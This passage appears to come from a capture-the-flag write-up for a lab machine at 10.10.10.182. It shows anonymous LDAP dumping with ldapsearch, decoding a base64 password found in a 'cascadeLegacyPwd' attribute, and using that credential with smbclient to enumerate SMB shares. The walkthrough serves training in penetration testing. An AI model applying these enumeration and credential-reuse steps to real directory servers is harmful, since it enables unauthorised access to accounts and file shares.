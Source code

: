 ```bash
$ ldapsearch -x -b "dc=cascade,dc=local" -H ldap://10.10.10.182 > ldap.txt
```

This command will dump a ton of information into a text file for us to sift through. A few thousand lines in we find a field named `cascadeLegacyPwd` with what appears to be a base64 encoded password for the user r.thompson.

```
[...]
sAMAccountName: r.thompson
sAMAccountType: 805306368
userPrincipalName: r.thompson@cascade.local
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=cascade,DC=local
dSCorePropagationData: 20200126183918.0Z
dSCorePropagationData: 20200119174753.0Z
dSCorePropagationData: 20200119174719.0Z
dSCorePropagationData: 20200119174508.0Z
dSCorePropagationData: 16010101000000.0Z
lastLogonTimestamp: 132382409952694090
msDS-SupportedEncryptionTypes: 0
cascadeLegacyPwd: clk0bjVldmE=
[...]
```

Decoding this reveals the password rY4n5eva. Let's see what we can do with this information.

First thing we'll try is smb enumeration with `smbclient`.

```bash
$ smbclient -L 10.10.10.182 -U r.thompson%rY4n5eva
```

Good news, we are able to successfully view the shares on the machine. Let's start enumerating them.

![](/assets/img/posts/htb/07-2020-4/smbclient-ryan.png)

The two share that really stand out are the Data and Audit$ shares. Unfortunately, user r.thompson doesn't have Audit$ access, but do have permissions for the Data share.

```bash
$ smbclient \\\\10.10.10.182\\Data -U r.thompson%rY4n5eva
```
